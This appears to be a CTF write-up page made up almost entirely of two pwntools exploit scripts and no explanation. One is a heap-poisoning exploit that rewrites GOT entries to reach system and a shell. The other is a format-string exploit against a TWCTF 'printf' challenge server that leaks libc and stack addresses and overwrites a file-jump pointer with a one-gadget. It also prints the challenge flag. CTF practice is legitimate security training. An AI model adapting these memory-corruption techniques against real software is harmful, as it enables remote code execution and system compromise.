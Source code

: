 ```python=
  index3 = add(0x21000,"sh\n")
  index1 = add(0x68,"A\n")
  index2 = add(0x68,"A\n")
  delete(index1)
  delete(index2)
  modify(index2,p64(0x602140+5)[:3])
  index1 = add(0x18,"A\n")
  index2 = add(0x68,"A\n")
  delete(index1)
  index1 = add(0x68,"A"*0xb + p64(1) + p64(0x602078) + p64(0x0000deadc0bebeef) + "\n")
  printf_plt = 0x0400760
  modify(0,p64(printf_plt)[:6])
  r.recvuntil("> ")
  r.sendline("5%19$p*")
  r.recvuntil("5")
  libc = int(r.recvuntil("*")[:-1],16) - 0x21b97
  print("libc = {}".format(hex(libc)))
  free_got = 0x602018
  system = libc + 0x4f440
  print("system = {}".format(hex(system)))
  for i in xrange(6):
    r.recvuntil("> ")
    fmt = "%{}c%9$hhn".format((system>>(i*8))&0xff).ljust(0x18,"A") + p64(free_got+i)[:-1]
    print repr(fmt)
    r.send(fmt)
  r.recvuntil("> ")
  r.sendline("AAA")
  r.sendline("%" + str(index3) + "c")
  r.interactive()

```

### printf

```python=
#!/usr/bin/env python
from pwn import *
import re

# TWCTF{Pudding_Pudding_Pudding_purintoehu}

context.arch = 'amd64'
e , l = ELF( './printf' ) , ELF( './libc-d7ab015f68cd23c410d57af6552deb54bcb16ff64177c8f2c671902915b75110.so.6' )
y = remote( 'printf.chal.ctf.westerns.tokyo' , 10001 )


fmt = '%lx.' * 0x30 + 'yuawn'
y.sendlineafter( '?' , fmt )

o = y.recvuntil( 'yuawn' ).split('.')
l.address = int( o[1] , 16 ) - 0x1e7580
success( 'libc -> %s' % hex( l.address ) )
stk = int( o[39] , 16 ) - 0x380
success( 'stack -> %s' % hex( stk ) )


off = stk - ( l.address + 0x1e6598 ) + 0x10 # _IO_file_jumps

one = 0x106ef8
fmt = '%{}c'.format( str( off ) ) + 'a'.ljust( 7 , 'a' ) + p64( l.address + one )
y.sendlineafter( '?' , fmt.ljust( 0xff , '\0' ) )

```